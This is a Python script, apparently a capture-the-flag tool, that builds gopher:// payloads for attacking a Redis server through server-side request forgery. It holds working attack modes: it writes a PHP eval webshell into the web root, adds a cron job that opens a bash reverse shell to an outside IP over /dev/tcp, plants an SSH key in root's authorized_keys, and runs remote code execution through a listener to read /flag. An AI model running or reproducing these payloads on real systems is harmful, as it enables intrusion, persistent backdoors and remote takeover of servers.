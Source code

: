 ```python
    if mode == 0:
        filename = "shell.php"
        path = "/var/www/html"
        shell = "\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"

        cmd = generate_shell(filename, path, passwd, shell)

    elif mode == 1:
        filename = "root"
        path = "/var/spool/cron/"
        shell = "\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.1.1/2333 0>&1\n\n"

        cmd = generate_reverse(filename, path, passwd, shell)

    elif mode == 2:
        filename = "authorized_keys"
        path = "/root/.ssh/"
        pubkey = "\n\nssh-rsa "

        cmd = generate_sshkey(filename, path, passwd, pubkey)

    elif mode == 3:
        lhost = "174.0.11.37"
        lport = "21000"
        command = "cat /flag"

        cmd = generate_rce(lhost, lport, passwd, command)

    elif mode == 31:
        cmd = rce_cleanup()

    protocol = "gopher://"
    payload = protocol + ip + ":" + port + "/_"

    for x in cmd:
        payload += quote(redis_format(x))
    return payload


if __name__ == "__main__":
    # 0 for webshell ; 1 for re shell ; 2 for ssh key ; 3 for redis rce ; 31 for rce clean up
    # suggest cleaning up when mode 3 used
    mode = 3

    # need auth or not
    passwd = "root"

    ip = "127.0.0.1"
    port = "6379"

    p = generate_payload(ip, port, passwd, mode)
    print(p.replace("gopher://127.0.0.1:6379","gopher://0.0.0.0:6379"))
```
